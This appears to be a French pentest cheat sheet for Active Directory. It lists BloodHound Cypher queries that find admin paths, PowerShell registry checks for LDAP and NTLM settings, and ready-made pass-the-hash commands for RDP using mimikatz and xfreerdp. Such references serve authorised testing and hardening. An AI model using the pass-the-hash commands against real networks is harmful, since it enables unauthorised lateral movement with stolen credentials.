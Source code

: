 # Cheat Sheet Active Directory

Liste de commandes utiles en pentest Active Directory. Commandes Windows & Linux.

## Cypher Queries

Requêtes Cypher qui peuvent être utiles:

``` 
# Liste de tous les utilisateurs avec des droits d'admins locaux (direct ou via un groupe)
MATCH p=(u:User)-[r:AdminTo|MemberOf*1..]->(c:Computer) RETURN p

# Juste les groupes
MATCH p=(g:Group)-[r:AdminTo|MemberOf*1..]->(c:Computer) RETURN p

# Admin direct (sans groupe)
MATCH p=(u:User)-[r:AdminTo]->(c:Computer) RETURN p
```

## Remote Desktop Protocol

Pour faire un pass the hash avec RDP sous Windows (via mimikatz)

``` 
sekurlsa::pth /user:user /domain:domain.local /ntlm:xxxxxxxxxxxxxxx /run:"mstsc.exe /restrictedadmin"
```

Sous Linux
``` bash
xfreerdp /u:USER /d:DOMAIN /pth:NTLM /v:server.domain.local
```

## Configuration Active Directory

Récupérer des informations de configuration (accès local nécessaire):

``` powershell
# LDAP Signing
Get-ItemProperty -Path HKLM:\\SYSTEM\\CurrentControlSet\\Services\\NTDS\\Parameters -Name LDAPServerIntegrity
# LDAP Channel Binding
Get-ItemProperty -Path HKLM:\\SYSTEM\\CurrentControlSet\\Services\\NTDS\\Parameters -Name LdapEnforceChannelBinding
# Protocoles autorisés pour échanges NTLM
Get-ItemProperty -Path HKLM:\\System\\CurrentControlSet\\Control\\Lsa -Name LmCompatibilityLevel
```
